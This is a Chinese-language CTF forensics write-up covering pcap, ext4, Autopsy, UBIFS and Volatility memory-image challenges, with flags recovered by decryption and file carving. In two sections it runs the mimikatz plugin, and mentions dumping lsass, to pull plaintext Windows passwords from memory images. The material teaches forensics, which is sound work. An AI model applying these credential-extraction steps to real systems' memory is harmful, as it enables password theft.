1 | # 把抓包里 tcp:9281 的每个包的payload十六进制提出来，再把这些十六进制还原成真实二进制数据输出 |
1 | ┌──(npusec㉿AnRan)-[/mnt/e/Forensics] |
PS：直接补上流量包后缀 .pcapng 然后wireshark过滤也行
- 再编写脚本异或解密，获得解密后的img文件
1 | import random |
- 运行后就能正确识别出img是什么类型的文件，然后选择合适的方式挂载了
- 同样的ext4文件，同样拖入WinHex转为磁盘文件；找到并恢复出一张图片即可获得第一段flag
二、内存取证，查找输入内容
- 第二段flag应该是涉及到将内存转储 mem 恢复出来【内存取证】部分
想到这个是因为在 /root 路径中下发现了Github内存提取工具 LiME 的路径
LiME = Linux Memory Extractor（Linux 内存提取器），一个内核模块（
.ko/.mod）用来把 Linux 的 RAM dump 下来。所以看到
LiME/目录，就推测：这题第二部分可能和 内存 dump 有关（memory forensics）。
- 既然是现成的项目，可以通过对比本地项目于开源项目有什么区别来看有没有提示/项目使用痕迹
【这里找不同实际博客中使用的是在Linux中挂载；然后Linux指令实现的，这里先按照原来的WinHex来说】
- 总而言之多了这两个文件：
src/lime.mod&src/sample.mem；其中sample.mem就是dump下来的内存
【博客也说正常应该使用Volatility一步步分析的，但是由于内存文件几乎明文存储；又知道剩下的是第二段flag了，肯定以大括号 } 结尾，因此直接 strings + grep 了（也可以直接提取出来然后文本文本编辑器打开搜索字符串）】
正则表达式匹配就是 [!-~]{5,}\}$ ，匹配用 } 结尾，且前面至少有5个不包括空格的有效字符的字符串（具体数字试一下）
- 这里使用notepad++打开的时候发现一个问题：
找到的字符串未必真的是目标字符串；查询资料发现原因：
GNU
strings默认提取的是 0x20~0x7E（空格到~）这段 ASCII 可打印字符（再加少量控制符支持），不包含 0xFF。所以文件里真实字节可能是：
2
c t i v e _ t y ... }
strings会从c（0x63）开始算一个字符串，于是输出
但编辑器（或 Notepad++ 的某些显示方式）可能把
0xFF显示成ÿ或者显示成xFF占位符，所以看到
总之不要用文本编辑器去找了，有条件就用strings
- 当然一般不会只出现一次；往下找又能看到正常的了：但是还是不建议用文本编辑器强行打开二进制文件
- 使用strings问题就是总会有很多输出，因此强化过滤条件就很重要了；不然真看麻了
1 | strings -a -n 20 -t x sample.mem | grep '}$' |
- 所以最后的flag就是
1 | irisctf{y0ure_a_r3al_m4ster_det3ctive_ty_f0r_s4v1ng_0ur_d4ta} |
补充一下Linux挂载操作流程与大佬思路
- 总思路：确认持久化点（.bashrc）→ 发现 PATH 劫持 → 定位被替换的系统命令（gunzip）→ 对比真伪 → 还原攻击者行为链（打包 ext4 → 加密 → 删除原数据）
- 首先是Linux中挂载ext4文件
1 | sudo mount -t ext4 -o ro,noload,loop investigator-alligator ./mnt |
-text4 指定文件系统类型是 ext4 （不指定也会识别）
-o后面是一串挂载选项（逗号分隔）：
ro（read-only）：只读挂载
noload：不要加载/回放 ext4 journalext4 有日志（journal），正常挂载时内核为了修复一致性，会把 journal 里的内容写回到文件系统的正式区域。（也是防止修改原文件）
loop：把普通文件当作块设备通过 loop device 挂载也就是镜像文件 ≈ 一个虚拟磁盘分区。（有的系统支持默认使用，有的需要显式说明）
1 | ┌──(npusec㉿AnRan)-[/mnt/e/Forensics/mnt] |
tree：以树状结构列出目录内容（比ls更直观，能看到层级关系）
-L 1：L是 level（层级深度），1表示只显示一层
tree -d -L 1只显示目录，不显示文件
- 挂载完之后首先思路是查看
/home下的可疑用户（路径下有特殊文件的用户），然后去查.bash_history看看有没有执行过什么奇怪的命令；
- 上面可以看到编辑过
.bashrc，因此下一步对比用户 bash 配置.bashrc与系统默认模板/etc/skel/.bashrc看看有没有用户环境改动或者PATH劫持【diff指令详见前言部分】
【这里来看正常加密的python脚本使用后应该删除的，所以前面直接找到的rswenc.py只能说是作者不想太难】
这里顺便补一下被删除了的taunt.c的内容，确实是嘲讽然后sleep延迟响应的
1 | // taunt.c |
- 这么来看思路也就清晰了，下一步就是要去分析没有删除的加密镜像文件
encrypted.img了。这也看出来这个题目很好，一环扣一环：引导下一步解密磁盘镜像然后分析
······后面的做法就和前面的一样了；这里主要是写一下分析的流程
- 然后还有一个就是第二部分的时候，如何找原项目于本地项目哪里不一样的
1 | git remote -v # 列出当前 Git 仓库配置的远程仓库及其URL |
- 记得最后卸载这个挂载的镜像文件
1 | sudo umount ./mnt # 指定挂载的目标路径即可 |
- 这里既然提到了这个
taunt.c文件，在另一篇博客看到了另一种有趣的strings过滤思路：既然这个根据题目要求是要查询内存文件中的用户输入的字符串，结合这个taunt.c文件的内容是嘲讽输出puts("YOU'VE BEEN PWNED!");之后fgets(buffer, 1024, stdin);请求用户输入；因此合理推断要查询的输入字符串是在输出语句"YOU'VE BEEN PWNED!"之后输入的。因此先strings查询taunt.c文件输出的字符串，然后上下找一下有没有第二段flag。
1 | # 先确定一下可确定的字符串偏移地址（字符串内有单引号因此被迫使用双引号） |
【这里尝试用Vol分析内存文件，但是Linux镜像没找到了profile；失败了】
.dd加密镜像（Autopsy）
题目来源：picoCTF-DISKO 2
参考博客：Autopsy in Linux
手搓分析
- 这里的dd后缀第一次见；
file看一下
1 | ┌──(npusec㉿AnRan)-[/mnt/e/Forensics] |
这是一个整盘镜像（raw disk image），常见后缀就是
.dd。这个镜像的开头是 DOS/MBR 引导扇区，并且里面有 MBR 分区表，这个 dd 整盘镜像里有 2 个分区，而且它们的起始扇区分别是 2048（Linux文件系统分区） 和 53248（FAT32文件系统分区）；具体文件系统是什么是看ID看出来的，不同ID种类见前言。【原始扇区流常见后缀还有.dd、.img、.raw、.bin】
-
注：
- 一块磁盘可以有多个分区（分区表 MBR/GPT 负责“地图”）。
- 每个分区可以各自使用不同文件系统（NTFS / FAT32 / exFAT / ext4 / xfs…），彼此互不影响。
-
所以可以推断：
disko-2.dd这种“MBR + 一个 0x83 + 一个 0x0b” 的布局，非常像——-
分区1：Linux 用的分区（类型码 0x83），里面可能是 ext4/xfs 等
-
分区2：FAT32 分区（类型码 0x0b），常见用途是数据交换分区（Linux/Windows 都能读），或者在某些场景下做 启动/工具盘（但 EFI System Partition 更常见是 GPT + FAT32）
-
-
Autopsy是常见的分析原始扇区流文件raw的免费工具
Autopsy（Win）
- 首先创建新的case（这个dd文件是第一次分析）
- 选择导入数据类型为本地的镜像文件（前面的case标签与归属主机直接默认或者看着打标签即可；只是用于管理多个case的，这里单个文件取证用不太到）
Local Disk：直接分析电脑上某块真实硬盘/分区（不推荐随便用，容易误操作）
Logical Files：导入一个文件夹或一堆文件（比如只拿到了用户目录、浏览器数据导出、日志包）。这是逻辑取证，看不到未分配空间/删除痕迹那类底层东西。
Unallocated Space Image File：只有未分配空间的镜像（例如从整盘里把 free space 单独抽出来），用于 carving/残留搜索。
Autopsy Logical Imager Results：Autopsy 自带的 Logical Imager 导出的结果包。
XRY Text Export：XRY（手机取证工具）导出的文本结果给 Autopsy 再整理。
- 选择磁盘镜像文件路径
- 选择合适的分析选项（不同选项有不同的效果与响应的代价）
| 模块 | 它在干啥（产出什么） | 什么时候建议开 | 代价/坑 |
|---|---|---|---|
| Recent Activity | 抽取“近期用户活动”类痕迹（浏览器、最近文件、下载记录等，取决于系统与解析器） | 案件/CTF 想快速找线索、时间线入口 | 在 Linux/FAT 环境可能产出较少；但代价一般不大 |
| Hash Lookup | 对文件哈希做黑/白名单查询（常见是 NSRL/Project VIC/自建库等） | 你有 hash set，想过滤已知文件或找已知恶意 | 没库就是白跑；联网/库不全时价值低 |
| File Type Identification | 用文件头（magic）识别真实类型，给出 MIME/类型标签 | 必开（快筛、发现伪装文件） | 代价低，收益高 |
| Extension Mismatch Detector | 找“扩展名与真实类型不一致”的文件（.jpg 实为 zip/exe 等） | CTF/对抗样本几乎必开 | 误报会有，但很值 |
| Embedded File Extractor | 从容器/复合文件里自动提取嵌入内容（zip、doc、pdf、某些图片/音视频封装等） | CTF 常见“套娃/嵌入”，建议开 | 可能导致数据量膨胀；会产生很多派生文件 |
| Picture Analyzer | 图片相关分析（缩略图、元数据/EXIF、可能的分类/相似等，取决版本） | 你明确在找图片证据/相册线索 | 会慢、会占空间；CTF 多数不需要 |
| Keyword Search | 全文/字符串索引 + 关键词命中（支持字典/自定义词表） | 必开（想快速命中 flag、账号、路径、域名等） | 取决于索引范围，可能变慢/占空间；词表别太大太早塞进去 |
| Email Parser | 解析常见邮件容器/邮箱库（mbox/pst 等，视版本） | 明确有邮件证据 | 没邮件就白跑；有的格式支持有限 |
| Encryption Detection | 识别疑似加密/高熵内容、加密容器/加密压缩包等线索 | CTF/案件想判断“哪里被加密/藏数据” | 误报正常；但通常代价不高 |
| Interesting Files Identifier | 按规则标记“可能重要/可疑”的文件（脚本、密码库、配置、可执行等） | 快速筛线索强烈建议开 | 误报会有；但属于“宁可多抓” |
| Central Repository | 跨案件/跨数据源关联（同哈希、同 artifact），用于情报复用 | 多案协作/实验室流程 | 单人/CTF 基本没用；有管理负担 |
| PhotoRec Carver | 对未分配空间/原始空间 carving 恢复（按文件头尾捞删除残留） | 怀疑删文件/隐藏在 free space；想“捞残留” | 很慢、产物巨多且碎；需要二次筛选 |
| Virtual Machine Extractor | 识别/提取 VM 镜像（vmdk/vhd/vdi/qcow2 等），可能“套娃导入” | 你怀疑镜像里藏 VM 磁盘/快照 | 容易把分析量搞爆；没 VM 线索就关 |
| Data Source Integrity | 记录/检查数据源读取一致性，有时会做哈希或读错误统计（看版本） | 正经取证链路、写报告想提“完整性” | 不替代你手动算 SHA256；一般不算太慢 |
| Android Analyzer (aLEAPP) | 用 aLEAPP 解析安卓数据（备份/镜像/应用库） | 证据是安卓手机相关 | PC/Linux 磁盘镜像多半白跑，可能报依赖错误 |
| Android Analyzer | Autopsy 自带的安卓解析（比 aLEAPP 更“内置”的那类） | 同上：安卓证据 | 同上：非安卓基本无收益 |
| iOS Analyzer (iLEAPP) | 用 iLEAPP 解析 iOS 备份/导出数据 | 证据是 iPhone/iTunes 备份等 | 非 iOS 白跑；依赖/解析覆盖看版本 |
| GPX Parser | 解析 .gpx（GPS 轨迹）文件为可视化/时间线 | 证据里明确有轨迹/定位数据 | 没 GPX 就没产出，代价低 |
| Cyber Triage Malware Scanner | 偏应急的恶意文件/可疑行为扫描（依赖规则/引擎） | 入侵排查/恶意样本分析 | 可能误报；规则/库不全时收益一般且拖时 |
| DJI Drone Analyzer | 解析 DJI 飞行记录/日志/媒体元数据等 | 证据是大疆无人机/飞控数据 | 普通镜像基本没用 |
| Plaso | 调 Plaso/Log2Timeline 做深度多源时间线抽取 | 你要非常完整的 timeline（报告级） | 很慢、依赖多；CTF 通常不需要 |
| YARA Analyzer | 对文件内容跑 YARA 规则，命中即标记/归类 | 你有 YARA 规则（CTF给规则/你做 malware hunt） | 规则大就慢；没规则就等于没用 |
这里选择了部分常用的分析规则：
1 | Recent Activity、File Type Identification、Extension Mismatch Detector、Keyword Search、Interesting Files |
- 直接全局搜索字符串
- 但是只有一个flag为真的——在
/1/下
1 | picoCTF{4_P4Rt_1t_i5_055dd175} |
- 用完的case直接在文件中删除case即可（资源管理器里面直接删除工程也行）
Autopsy（Linux）
- 另外补充一下找到的博客所使用的Linux自带的Autopsy工具【网页服务，由于我是WSL就没有挂载分析】
（实则过程是类似的；简单复制粘贴一下HelloCTF以备不时之需）
- 启动
1 | sudo autopsy |
- 创建新案例
- 创建成功
- 这一步不用填写；默认即可
- 添加镜像
- 添加完后如下
- 点击第一个分析
- 选择关键词进行搜索
- 查看原始数据获得flag（点击ASCII也可以看）
- 切换到
/1/只找到一个 flag，提交为真
手搓取证记录
- 在
file确认是磁盘镜像文件之后，进一步用fdisk/mmls确认文件系统分区/偏移
1 | fdisk -lu disko-2.dd |
成功实现把整盘镜像变成可精确定位的分区片段；进一步细化分析范围
要分析的Linux 类型分区（ID=0x83）从 sector 2048 开始，长度 51200 sectors
- 利用
dd把Linux分区切出来作为单独的镜像
1 | dd if=disko-2.dd of=part1.img bs=512 skip=2048 count=51200 |
- 筛选只出现过一次的flag（作者要求的）
1 | strings part1.img | grep picoCTF | sort | uniq -c | sort -n |
UBIFS（Ubireader Extract Files）
- UBI（Unsorted Block Images）是 Linux 在 NAND Flash 这种“麻烦存储介质”上用的一层中间抽象/管理层。从取证视角它不是文件系统，而是把原始闪存（MTD）变成“可用卷（volume）”的管理框架，上面才能跑 UBIFS 之类的文件系统。
- UBIFS（UBI File System）从取证角度看，就是嵌入式设备（路由器、摄像头、IoT、车机、工控）常见的一种闪存文件系统，专门跑在 UBI 之上，用来管理 NAND Flash 这种“会坏块、要磨损均衡、不能随便覆盖写”的介质。
- 解压附件gz文件发现4个
.bin文件
1 | tar -xzvf ./Flying_High.tar.gz |
- 判断文件类型：这四个
\*.bin文件都被file识别为 UBIFS 镜像里的数据块，而且每个文件只有 4096 字节。也就是说不是一个完整的 rootfs.ubifs / ubi.img，而更像是被切碎后的 UBIFS 片段【sequence number 1：UBIFS 节点头里的序列号（用来区分不同挂载周期/提交周期）。这里四个都为 1，说明它们来自同一轮格式/同一份镜像的同一序列域，不像是混杂的不同来源。】
1 | # 安装工具 |
- 尝试分析每一个UBIFS数据块
1 | # ubireader_extract_files 工具尝试提取每个 .bin 文件的内容，并将提取的文件保存到以 extracted_ 为前缀、原始 .bin 文件名为后缀的目录中【批量离线提取 + 导出】 |
这里只有解析 image2.bin 的时候报了一个Fatal【导出文件夹内容为空】，其他的要么是Warn要么啥都没有【文件夹里都有东西】
- 这里我有一个疑问：既然说可能不是完整的镜像文件，很可能是被切碎的分块文件；为什么还能每个文件都解析出来一堆东西？GPT解释如下：
- 因为解析 UBIFS这事不是非黑即白的：就算镜像不完整/有坏块/有截断，工具也常常能捞出一部分目录树和文件。现在看到的就是典型的“可恢复但不保证完整”的结果。
- 最后在最后一个文件解析出来的文件夹中找到一个视频含有flag
1 | HITB{96ac9a0458279711e5d61f10849e6c58} |
- PS：这里发现有东西的导出路径内容各有千秋。询问GPT如是说
不同的 .bin 很可能对应不同的 UBI volume（卷）或不同分区导出的数据段，所以每个能解析出来的目录/文件类型完全不同。
你贴的三组结果非常有“嵌入式设备真实布局”的味道：
extracted_image1.bin/里有bin/ etc/ lib/ sbin/ usr/ var/ proc/ sys/ dev/
这就是典型的 Linux rootfs（根文件系统）。
这种通常对应 UBI 里的一个卷，比如rootfs或system。extracted_image3.bin/里是config.ini / gps.log / random_mac.txt / trims.bin / video/
这像是 用户数据/运行数据卷：日志、随机 MAC、GPS、视频目录、校准参数（trims）。
常见对应userdata/data/rootfs_data/overlay/config之类的卷。extracted_image0.bin/里是serial.txt / uid.txt / production_info.xml / parameters.xml / camera_calibration.txt / FVT1_*
这很像 工厂/产测（Factory / FVT）信息卷：序列号、UID、生产信息、标定文件、产测脚本。
常见对应factory/oem/config/calibration卷。
→→→不同镜像文件携带了不同“卷/文件系统实例”的内容，它们各自内部相对完整，所以 ubireader 能导出漂亮的目录树；但跨文件之间并不是“同一个文件系统被切块”，而更像“同一设备的多个卷被分别 dump 出来”。
Windows取证（内存镜像取证）
常规流程
小技巧：测试要不要从内存提取文件的话，可以先binwalk看一眼；因为内存镜像里经常会直接存放某些文件的完整字节序列（但是不代表可以直接foremost提取，有时候还需要取证做）【这个查看有没有可能提取的文件的技巧在下面常规思路没线索的时候可能有奇效】
pslist/pstree（锁定可疑进程/PID） → cmdscan（还原命令行执行痕迹） → editbox（提取GUI文本框内容/撤销缓冲） → iehistory（补全浏览记录与访问线索） → screenshot还原桌面场景
查看notepad编辑内容（Vol2）
参考博客：内存取证-证取单简-CSDN博客
- 内存取证当然先看看配置文件profile是什么；可以用
Win7SP1x64
1 | vol2 -f mem imageinfo |
- 查看一下有什么进程；发现有价值的就三个进程：其他都是普通的系统进程了
1 | vol2 -f mem --profile=Win7SP1x64 pslist |
cmdscan先看一下cmd.exe都执行过什么指令了【一般cmd都有东西】
1 | vol2 -f mem --profile=Win7SP1x64 cmdscan |
发现提示用户喜欢使用相同的密码
- 既然说到了密码，那就再去
mimiktz看看明文密码；发现密码0xGame2022
1 | vol2 -f mem --profile=Win7SP1x64 mimikatz |
- 再去
iehistory看了看浏览器历史；但是没有啥发现（提到了访问过flag.txt/hint.txt但是不在内存中）
- 既然还有
notepad.exe记录，那就再使用editbox插件查看编辑的内容
在内存里枚举所有 GUI “Edit 控件”（Win32 的 EDIT 类），把它们当时“框里显示的文本”和“撤销缓冲区(undo buffer)”之类的状态抠出来。它的价值在取证里很大：能捞到路径、命令行片段、对话框里输入过的内容、甚至曾经输入又删掉的内容。【
editbox抓的是 Edit 控件，不是所有用户输入。很多程序用自绘控件、浏览器、富文本、WPF/Qt 等，可能抓不到或抓得不全。】
1 | vol2 -f mem --profile=Win7SP1x64 editbox |
加盐AES解密
- FTK就是dump内存用的，因此重点在Notepad那里输入的加密字符串
1 | St1gvdn13d2SGcKvxRq4vbGEKf66e1IX1ywid5epVjAHknLqo5UQj/1XkVGdsF2U |
- 那么结合已知的，脑洞大开一下；作者意思是所有密码都是一个，也就是说这段密文加密所用的密码就是
0xGame2022，然后只需要知道密文加密方式即可解密。 - 根据最后面几个字符反过来是 U2FsdGVkX1，base64解密就是Salted__（可能是用 OpenSSL 的
enc系列命令生成的带 salt 的封装；而OpenSSL常用的加密算法就是AES加盐加密）；以及题目名字为倒置的猜测应该要倒置这段编码并AES解密【OpenSSL（salted）口令解密，而不是直接 AES key 解密】
1 | print("St1gvdn13d2SGcKvxRq4vbGEKf66e1IX1ywid5epVjAHknLqo5UQj/1XkVGdsF2U"[::-1]) |
- 解密实现的话可以直接用在线网站
-
这里预备了本地解密的方法（CyberChef没有直接OpenSSL解密的选项）
- 先是分离
salt与密文：直接base64解码转hex（固定格式）
1
2
3
4
5
6salt = e3 41 4e 68 a8 b9 e4 1c
ciphertext =
08 d5 a5 ee 5d 8b 0c b5
5c 8d 5e eb a7 ca 10 66
ef e2 a4 71 bc a7 06 4b
67 77 d6 77 6f 83 5b 52- 然后用python代码获得
key与iv
1
2
3
4
5
6
7
8
9import hashlib
# 分别输入密码与上一步获得的salt
pw=b"0xGame2022"; salt=bytes.fromhex("e3 41 4e 68 a8 b9 e4 1c")
d=b""; out=b""
while len(out)<48:
d=hashlib.md5(d+pw+salt).digest()
out+=d
print("key =", out[:32].hex())
print("iv =", out[32:48].hex())1
2key = 016e421e5f25b4ffc4979f2a365317c033b9d70d2fab3a5d643bb9fdd8e1dbd2
iv = 668fea0ea2c892103c8b1618af9e0dfa- 最后在CyberChef直接标准AES解密即可
- 先是分离
1 | 0xGame{F1rst_St3p_0f_Forens1cs} |
抓取 nc 流量（Vol2）
题目来源：Nuit du hack 2011 CTF Forensic 300 Shell-Storm repository
题目要求：分析内存镜像，定位攻击者通信痕迹，从进程内存中恢复“secret pass”
参考博客：Nuit du hack 2011 CTF Forensic | More Smoked Leet Chicken（还有Hello CTF）
- 显示查看镜像信息
imageinfo是Win7SP1x86_23418（博客里用的Win7SP0x86分析起来一样）
1 | vol2 -f DumpRAM_CTF.vmem imageinfo |
- 然后看一下
pslist
1 | vol2 -f DumpRAM_CTF.vmem --profile=Win7SP1x86_23418 pslist |
- 按照流程出现
cmd.exe先看一下命令行历史；原来是通过cmd执行的nc命令
【其实这里已经找到目标密码了；但是这个题目放在这里是想说一下网络流量取证，而且正常连接的木马都不会明文传输内容；这里分析cmd历史属于正常思路】
- 接下来分析
nc.exe都干了什么，使用netscan扫描网络连接
1 | vol2 -f DumpRAM_CTF.vmem --profile=Win7SP0x86 netscan |
这里也能看到 nc 建立的远程IP与端口（就是cmd指令执行的域名解析出对应的IP）；其对应进程PID 1720
- 下一步，尝试通过
memdump转储进程内存来查看发送了哪些数据，并搜索可疑的 IP 地址
1 | vol2 -f DumpRAM_CTF.vmem --profile=Win7SP0x86 memdump -p 1720 -D ./ |
- 然后分析导出的进程文件；比如
binawalk分析一下有没有与远程传输什么文件，停留在内存中的
什么都没扫出来；都是进程虚拟内存 dump 里混杂了大量 DLL/PE 映射页 + 误报签名
- 直接
strings分析提取flag吧……
1 | strings -t x -a 1720.dmp | grep pass |
查看 IE 浏览器记录（Vol 2）
题目来源：BuuCTF-[DASCTF Oct X 吉林工师 欢迎来到魔法世界～]卡比卡比卡比
参考文档：Github博客
- 刚开始是两个附件；都识别为data；大的是一个镜像文件，小的看起来像是一个加密过的文件
- 查看镜像是Win7系统
1 | vol2 -f kabikabi.raw imageinfo |
- 查看进程发现
cmd.exe & iexplore.exe可以作为分析线索
1 | vol2 -f kabikabi.raw --profile=Win7SP1x64 pslist |
- 用
pstree查看Windows 进程父子关系树；可以看到进程最开始调用了浏览器（浏览器嫌疑更大了）
1 | vol2 -f kabikabi.raw --profile=Win7SP1x64 pstree |
pstree的输出不是按启动顺序从上到下，而是把**每个根节点（父进程不在当前列表里 / PPid=0 / 或父进程已退出等）**各自作为一棵子树打印出来。正常的Win7启动顺序应该是：
System (PID 4)→smss.exe (244)
smss是 Session Manager：Windows 启动的“分叉点”。
smss之后应该会派生出csrss.exe、wininit.exe、后面还有winlogon.exe等
这里打印出来的第一棵进程树是以 wininit.exe(384) 为根（父进程）的进程树：实际这个进程存在PID为320的父进程，但该父进程不在当前列表中因此把 wininit.exe 作为根节点进行打印
- 了解一下相关的服务名：
A. 大量
svchost.exe
svchost.exe本身不是某一个固定“服务”。它是 Windows 的 服务宿主进程（Service Host）：专门用来把很多系统服务（大多是 DLL 形式的服务）装进去运行的“容器”。B. 有明确名字的服务进程
spoolsv.exe (1156)：打印后台处理（Print Spooler）msdtc.exe (1944)：分布式事务协调器（Distributed Transaction Coordinator）SearchIndexer. (2788)：搜索索引服务sppsvc.exe (1404)：Software Protection（激活/授权相关）dllhost.exe (1832)：COM Surrogate（也很常见）WmiPrvSE.exe (1332)：WMI Provider Host（管理/查询接口，常见但也常被滥用）taskhost.exe (3760)：任务宿主（计划任务/任务组件承载）C. services.exe 下面还有：VMware Tools 证据链
这一坨几乎可以断言这是虚拟机：
vmacthlp.exe (676)：VMware Tools 组件之一vmtoolsd.exe (1456)：VMware Tools 主进程（服务侧）
- 它下面还有个
VMwareResoluti (3544)（名字被截断，通常是分辨率/显示相关组件）VGAuthService. (1340)：VMware Guest Authentication Service
后面的其他相关进程**（用户使用浏览器的记录）**
- 这里看
cmdscan打开过两个cmd窗口，一个输入了奇怪的数字5201314；另一个是启动DumpIt.exe的
1 | ************************************************** |
- 奇怪的数字可能是密码，这里存疑；重点应该是在巨长无比的浏览器历史记录里面找
进行了一些搜索【埋下伏笔】（还有一些其他网址没有截图了）
但是重点应该是这个访问了本地的一个文件 key.png
1 | ************************************************** |
filescan搜索一下这个文件看看还在不在内存中有留存；找到对应的偏移
1 | vol2 -f kabikabi.raw --profile=Win7SP1x64 filescan | grep 'key.png' |
- 把这个文件
dumpfiles出来；发现导出的文件是一个文本文件
1 | vol2 -f kabikabi.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000003e5e94c0 -D ./ |
不是西文文本，直接cat是乱码；转换后内容是（后面其实还有海量的空格）：
1 | iconv -f gbk -t utf-8 file.None.0xfffffa800420e870.dat |
- 视频的默认文件夹是Video，尝试搜索一下Video，发现可疑的文件，dump出来的内容为
xzkbyyds!
1 | vol2 -f kabikabi.raw --profile=Win7SP1x64 filescan | grep 'Video' |
- 没线索了……下一步看博客说要脑洞大开一下子了：结合前面看到的浏览器搜索记录提到有文件名加前缀的提示，再加上cmd命令行里奇怪的数字5201314 → 因此怀疑文件名前缀就是加的
5201314。故filescan一下5201314，再dump出来获得一个压缩包
1 | vol2 -f kabikabi.raw --profile=Win7SP1x64 filescan | grep '5201314' |
- 是个加密的压缩包；试过了5201314以及Video路径里面的文件的内容作为密码都不行；这里要有一个意识：还可能存在 Key 的地方，也许会是管理员登录密码【这经常是一个万能密码】
1 | vol2 -f kabikabi.raw --profile=Win7SP1x64 mimikatz |
另外博客中提到：mimikatz（离线模式）通常需要的是 某个进程的转储（尤其是 lsass 的 dump），而不是整块物理内存【其实我这里直接输入 raw 文件也没事；但是还是记录一下】
1 | # 先单独 dump 出 lsass.exe 进程（500是之前 pstree 看到的PID） |
- 这个密码解密压缩包获得一个
.py文件；就是小的加密文件的加密方式
1 | import struct |
- 根据 这里的
key的位数为 9 位，正好就是之前的ohhhh的内容xzkbyyds!；逆向还原一下原文件内容
1 | # 因为是异或加密；直接原来的代码换上密钥再换一下名字，运行一下就行 |
- 输出获得一个GIF文件；这里属性查看的大小与010中显示的大小不一致；是认为修改了宽高
- 修改高度后在第114帧看到flag【发现StegSolve只有1.3还有逐帧查看功能；因此直接用
ScreenToGif了】
1 | DASCTF{Kirby_Yyds} # 图片里少了一个F，自动补全 |
查找提取图片&QQ号&wechatpicxorvalue（Volatility 2）
题目来源：Bugku-聊天
题目描述 & 作者提示：格式bugku{………………_??} & 微信ID\FileStorage\Temp
参考博客：BugkuMisc大集合
- 这里可以先用一下小技巧看看有什么可以提取的文件（博客里叫尝试非预期）；发现图片和压缩包
-
内存镜像也是经典的
Win7SP1x64系统 -
查看
pstree的时候看到了用户启动微信的进程；没有命令行痕迹 -
那下一步就是放在提取文件上了（binwalk看到的图片和压缩包信息）
1 | vol2 -f talk.vmem --profile=Win7SP1x64 filescan | grep "jpg" |
这里结合提示应该要的图片就是第一行的 Temp 路径下的文件了；而最像是正经压缩包的显然就是 f16g.rar 了 → 其实就是这两个（可能？压缩包不知道是不是）
- 提取文件：一个写着密码的图片和一个加密的压缩包 → 这里不知道为什么Vol2死活没法
dumpfiles提取出来那个压缩包，只好转到foremost提取了
1 | vol2 -f talk.vmem --profile=Win7SP1x64 dumpfiles -Q 0x0000000027e7a300 -D ./ |
PS：这里问了一下GPT为什么foremost能提取出来的rar文件，用Vol2就提取不出来了。这里发现 filescan的offset & dumpfiles的-Q 使用的物理偏移不指向文件的实际存储位置，而是该偏移处放着一个被扫描出来的 Windows 文件对象结构（大多是 _FILE_OBJECT，或相关对象）；该对象结构作为指针指向文件存放位置
【一堆类似 80 fa ff ff 的值，就是很典型的 **内核指针（0xfffffa80...）**被小端方式存进去后的样子】
至于为什么
filescan结果但是dumpfiles不出来？GPT解释的是找到了文件对象/路径，但对应的内容页不在这份
.vmem里（或无法通过指针链访问到）。也就是指针指的内容在内存文件中不存在（可能是已经换出内存了）；但是foremost却能正常导出来（rar文件内容就是在内存镜像中）是因为很可能是同一份 rar 的内容副本（也可能是别的 rar/碎片），但未必挂在那个file object的缓存链上。也就是说确实有这么一个文件在内存镜像中，但是不能通过
filescan获得的offset进行索引，而是别的进程调入内存的。
这里GPT提供了一个用yara 去找 rar 魔术头的方法
1 | vol2 -f talk.vmem --profile=Win7SP1x64 yarascan -y rar.yar |
1 | // rar.yar |
- 剩下的要找的就是这三个信息了
(qqnumber,qqname,wechatpicxorvalue(HEX,lowercase))；QQ相关的内容（QQ号与QQ名）。QQ号查找的思路就是文件路径里直接带号 → 典型字符串就是Tencent Files【其实这里上面查找那个rar文件的时候就看到了54297198】其他思路就是 注册表/QQ进程；QQ名可以通过QQ号搜索，但是这个屏蔽了，需要加Bugku的群，这个QQ号就是作者，作者在群里Xhelwer
1 | vol2 -f talk.vmem --profile=Win7SP1x64 filescan | grep 'Tencent Files' |
- 最后这个提到一个新名词
wechatpicxorvalue
在 Windows 电脑版微信里，图片缓存常见会以
.dat或无后缀形式保存，内容是把原图每个字节都和同一个 1-byte 的 key 做 XOR（异或）得到的。解密就是再 XOR 回去。所以所谓
wechatpicxorvalue指的就是这个 key（通常是 0x01~0xFF 之间的一个字节，偶尔也可能是 0x00）。只要知道原图开头的文件头魔数（比如 JPEG 通常以
FF D8开头），拿加密文件前几个字节一异或就能得到 key
- 因此下一步就是取证提取被微信异或过的图片文件 —— 通常就是微信缓存里的
.dat/ 无后缀文件
这里需要了解微信的默认存储相关路径
默认数据目录
C:\Users\<用户名>\Documents\WeChat Files\wxid_xxx\FileStorage\Image\
- 这里通常按年月/日期再分文件夹，里面很多就是图片缓存（可能有
.dat或无后缀）聊天附件/大文件
...\WeChat Files\wxid_xxx\FileStorage\MsgAttach\
- 收发的图片、文件附件经常会落在这里的子目录里
缓存图/缩略图
有些版本还会在
FileStorage\Cache\、FileStorage\Thumb\之类目录出现（名字可能略有差异，但都在FileStorage下面打转）。
Windows 端不是 Documents 的情况（用户改过存储位置 / 不同版本）
（如果用户在微信设置里改了存储位置，目录就不一定在 Documents）
%APPDATA%\Tencent\WeChat\%LOCALAPPDATA%\Tencent\WeChat\C:\Users\<用户名>\AppData\Roaming\Tencent\WeChat\C:\Users\<用户名>\AppData\Local\Tencent\WeChat\但要注意：很多时候 AppData 里是配置/数据库/索引，真正的聊天文件还是在用户设置的 “WeChat Files” 目录。
1 | # 因此搜索关键词 FileStorage |
- 这里直接提取第一个就行；发现直接识别出来是png图片了（010直接看也是没有异或）
1 | vol2 -f talk.vmem --profile=Win7SP1x64 dumpfiles -Q 0x0000000004de44d0 -D ./ |
后来发现其他几个 .dat 文件也都直接是 .png 识别出来；那就意味着这个key就是《偶尔出现的0x00》了 → 这样才能在异或之后魔术头不发生改变
- 因此拼接上面的所有信息获得flag
1 | bugku{s1mple_D1gital_f0rens1cs_54297198_Xhelwer_00} |
EXE dump（Volatility 2）
题目来源：BUUCYF-[HDCTF2019]你能发现什么蛛丝马迹吗
参考博客：内存取证 - [HDCTF2019]你能发现什么蛛丝马迹吗 - 《CTF 刷题总结》 - 极客文档
- 先看一下
profile居然是不常见的Win2003SP1x86（一般会选择第一个Win2003SP0x86但是这次报错）
- 看一下进程 → 这里真的是没有蛛丝马迹，用户的进程(
PID 1992)都看起来很正常 → 真是蛛丝马迹了
